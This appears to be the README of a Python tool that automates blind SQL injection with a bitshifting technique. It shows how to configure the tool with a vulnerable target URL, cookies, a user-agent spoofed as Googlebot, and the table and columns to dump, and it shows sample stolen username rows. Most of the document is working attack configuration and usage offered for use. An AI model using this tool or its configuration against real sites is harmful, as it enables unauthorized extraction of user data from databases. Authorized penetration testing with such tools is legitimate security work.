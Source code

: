 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** characters instead of guessing them. It requires 7/8 requests per character, depending on the configuration. That's a `12.5%` reduction in requests. Testing locally, this yeilded a speed increase of `15%`.

## Usage

```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "users"

# Specify columns to dump
x.options["columns"] = "id, username"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='success'>true</p>"
```

There's another boolean option that you can specify to make dumping faster:

`x.options["assume_only_ascii"] = 1`

This option makes the module assume that the characters it's dumping are all ASCII. Since the ASCII charset only goes up to `127`, we can set the first bit to `0` and not worry about calculating it. Of course this can cause issues when dumping chars that are outside of the ASCII range. By default, it's set to `0`.

Once configured, call the `exploit()` function:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'eclipse'], ['2', 'dotcppfile'], ['3', 'Acey'], ['4', 'Wardy'], ['5', 'idek']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow',  # This specifies to use the first row as the column headers.
               tablefmt='psql')     # Using the SQL output format. Other formats can be used.
```

This would output:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | eclipse    |
|    2 | dotcppfile |
|    3 | Acey       |
|    4 | Wardy      |
|    5 | idek       |
+------+------------+
```
